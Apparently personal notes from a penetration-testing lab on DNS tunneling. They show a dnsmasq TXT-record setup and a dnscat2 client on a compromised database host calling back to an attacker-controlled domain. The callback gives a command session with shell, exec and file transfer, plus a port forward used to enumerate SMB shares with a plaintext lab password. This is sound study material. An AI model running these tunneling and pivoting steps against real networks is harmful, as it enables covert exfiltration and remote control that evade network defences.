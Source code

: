 Infiltrating data to a network through DNS.

Smuggle data in through TXT records from FELINEAUTHORITY using Dnsmasq.

```hlt:1,11,12
kali@felineauthority:~/dns_tunneling$ cat dnsmasq_txt.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp

# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```

Start dnsmasq

```
kali@felineauthority:~/dns_tunneling$ sudo dnsmasq -C dnsmasq_txt.conf -d
```

Ensuring this worked by querying txt record for www.feline.corp with #nslookup 

```hlt:1,6,7
database_admin@pgdatabase01:~$ nslookup -type=txt www.feline.corp
Server:		192.168.50.64
Address:	192.168.50.64#53

Non-authoritative answer:
www.feline.corp	text = "here's something useful!"
www.feline.corp	text = "here's something else less useful."

Authoritative answers can be found from:

database_admin@pgdatabase01:~$
```

### DNS Tunneling with dnscat2

[dnscat2](https://github.com/iagox86/dnscat2)- exfil with DNS subdomain queries. infil with TXT (+ more) records

Starting tcpdump to listen for packets on UDP port 53

```
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
```

Starting the dnscat2 server

```
kali@felineauthority:~$ dnscat2-server feline.corp
```

Result: dnscat2 server is listening on all interfaces on port 53 

```
Starting Dnscat2 DNS server on 0.0.0.0:53
```

Run dnscat2 client binary on PGDATABASE01

```hlt:1,2,14
database_admin@pgdatabase01:~$ cd dnscat/
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp
Creating DNS driver:
 domain = feline.corp
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 127.0.0.53

Encrypted session established! For added security, please verify the server also displays this string:

Annoy Mona Spiced Outran Stump Visas 

Session established!
```

Verify connection

```hlt:1
kali@felineauthority:~$ dnscat2-server feline.corp
[sudo] password for kali: 
```

Start interacting with session from dnscat2 server

List active windows 

```hlt:1
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]
```

List available commands 

```
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
command (pgdatabase01) 1>
```

More info about **listen** because we want to port forward

 ```hlt:1,3,4
command (pgdatabase01) 1> listen --help
Error: The user requested help
Listens on a local port and sends the connection out the other side (like ssh
	-L). Usage: listen [<lhost>:]<lport> <rhost>:<rport>
```

listen operates like SSH -L

Setting up a port forward from FELINEAUTHORITY to PGDATABASE01

```hlt:1
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445
Listening on 127.0.0.1:4455, sending connections to 172.16.2.11:445
command (pgdatabase01) 1> 
```

List the SMB shares through this port forward

```hlt:1,9
kali@felineauthority:~$ smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
Password for [WORKGROUP\hr_admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
    	scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.50.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```